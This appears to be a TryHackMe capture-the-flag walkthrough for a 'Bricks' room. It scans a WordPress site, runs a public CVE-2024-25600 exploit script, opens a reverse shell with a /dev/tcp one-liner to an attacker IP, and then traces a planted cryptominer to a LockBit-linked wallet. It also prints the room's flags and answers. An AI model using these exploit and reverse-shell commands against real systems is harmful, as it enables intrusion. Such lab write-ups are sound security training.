 Add the following entry to your hosts file.
Open the file `/etc/hosts` with root privileges using a text editor:
```BASH
sudo nano /etc/hosts
```
At the end of the file add this line:
```BASH
$ip bricks.thm
```

Start by performing an Nmap scan. Use the following command to scan the target and determine open ports and running services:
```BASH
nmap -sV $ip
```
![image](https://github.com/user-attachments/assets/fd72d9cd-2bb1-4767-b85c-e683530ec48b)  

The scan output shows that the website uses HTTPS on port 443 and that Apache is serving the application.

<span style="line-height:0.5;">&nbsp;</span>

Next, run a Gobuster scan to further examine the website:
```BASH
gobuster dir -u "https://bricks.thm/" -w /usr/share/wordlists/dirb/big.txt -t 10 -x .txt,.php -k
```
![image](https://github.com/user-attachments/assets/9d6f6539-9d61-41c3-95c6-d938f6f9b713)  

The results indicate that the website is using WordPress.

<span style="line-height:0.5;">&nbsp;</span>

### What is the content of the hidden .txt file in the web folder?
Use [WPscan](https://wpscan.com/) to enumerate the WordPress instance:
```BASH
wpscan --url https://bricks.thm --disable-tls-checks --enumerate u,vp,vt
```
- url - target URL
- disable-tls-checks - skip the expired cert problem (same as -k)
- u - enumerate usernames
- vp - vulnerable plugins
- vt - vulnerable themes

![image](https://github.com/user-attachments/assets/f07e50d8-beab-4318-9aff-75ecc53a7895)

The WPScan output shows that the version of the Bricks WordPress theme is vulnerable. The vulnerability is known as [CVE-2024-25600](https://nvd.nist.gov/vuln/detail/CVE-2024-25600). A remote code execution exploit script is available on GitHub. Download that script and check provided README.md, because you have to install additionall libraries from python [source](https://github.com/Chocapikk/CVE-2024-25600). 

<span style="line-height:0.5;">&nbsp;</span>

Run the exploit script using this command:
```BASH
python exploit.py -u https://bricks.thm
```

<span style="line-height:0.5;">&nbsp;</span>

The exploit should allow you to execute code on the target server and eventually give you a shell. When you receive the shell, you must stabilize it. Set up a Netcat listener on your machine with this command:
```BASH
nc -lvnp 4444
```
In the compromised shell, run:
```BASH
bash -c 'bash -i >& /dev/tcp/10.10.96.142/4444 0>&1'
```
![image](https://github.com/user-attachments/assets/d92e241f-15f1-4da1-abad-e22b2d18156d)
![image](https://github.com/user-attachments/assets/1574c009-afb3-48ad-903b-cc124c46c6bd)

<pre>THM{fl46_650c844110baced87e1606453b93f22a}</pre>

This action creates a reverse shell that connects back to your Netcat listener. To further stabilize the shell, execute this command within the Netcat session:
```BASH
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

<span style="line-height:0.5;">&nbsp;</span>

### What is the name of the suspicious process?
Inspect the running processes by using `systemctl | grep running` command.  

![image](https://github.com/user-attachments/assets/54b8fffe-6262-45b2-a332-4fe0814e385c)  

There is a suspicious process named ubuntu.service TRYHACK3M. To examine the process in detail, display the contents of the service file:
```BASH
cat /etc/systemd/system/ubuntu.service                                                     
```
![image](https://github.com/user-attachments/assets/f2d9ea26-3284-4bb8-afe8-65f977fef8fd) 

The file shows that the suspicious process is called nm-inet-dialog. Its associated service is named ubuntu.service.
<pre>nm-inet-dialog</pre>

<span style="line-height:0.5;">&nbsp;</span>

### What is the service name affiliated with the suspicious process?
<pre>ubuntu.service</pre>

<span style="line-height:0.5;">&nbsp;</span>

### What is the log file name of the miner instance?
Next, investigate the log file for the miner instance: `ExecStart=/lib/NetworkManager/nm-inet-dialog`. Change into the directory: `/lib/NetworkManager`:
```BASH
cd /lib/NetworkManager                                                  
```
![image](https://github.com/user-attachments/assets/ffeaf339-0750-41d9-812f-7ca0c49c1252)  

List the directory contents and note that there is a configuration file called `inet.conf`. View the file with:
```BASH
cat inet.conf                                               
```
![image](https://github.com/user-attachments/assets/2f313a83-75ba-4da2-8d98-554c60e3a5f3)
<pre>inet.conf</pre>

<span style="line-height:0.5;">&nbsp;</span>

### What is the wallet address of the miner instance?
The file contains settings that include an encrypted or obfuscated wallet identifier. Retrieve the miner’s wallet address by copying the value from the file and decrypt the value with [CyberChef](https://gchq.github.io/CyberChef/).

![image](https://github.com/user-attachments/assets/14c37060-f054-4fae-889c-d2350f2252c6)  

After decryption you receive two similar bitcoin wallet addresses:
`bc1qyk79fcp9hd5kreprce89tkh4wrtl8avt4l67qa`
`bc1qyk79fcp9had5kreprce89tkh4wrtl8avt4l67qa`    

You check both addresses on a [blockchain explorer](https://www.blockchain.com/en/). The first address shows the expected transaction history. This confirms that the correct wallet address is the first one.  

![image](https://github.com/user-attachments/assets/9d46c7cd-c3e1-42dc-b9c1-d666f3c3d8f9)

![image](https://github.com/user-attachments/assets/ecb9f109-f895-4161-97ea-18496561bae6)

<pre>bc1qyk79fcp9hd5kreprce89tkh4wrtl8avt4l67qa</pre>

<span style="line-height:0.5;">&nbsp;</span>

### The wallet address used has been involved in transactions between wallets belonging to which threat group?
Finally, determine which threat group is associated with this wallet.  

![image](https://github.com/user-attachments/assets/502326e2-e66c-450d-abd6-847101d44441)

Search for the wallet address 32pTjxTNi7snk8sodrgfmdKao3DEn1nVJM using a search engine. The search results include information from an official [OFAC page](https://ofac.treasury.gov/recent-actions/20240220).

![image](https://github.com/user-attachments/assets/62b412eb-5f19-4d7d-b566-533d3d21d06c)

The record links the wallet with transactions performed by affiliates of a Russian-based threat group. The investigation confirms that the threat group is known as:
<pre>LockBit</pre>
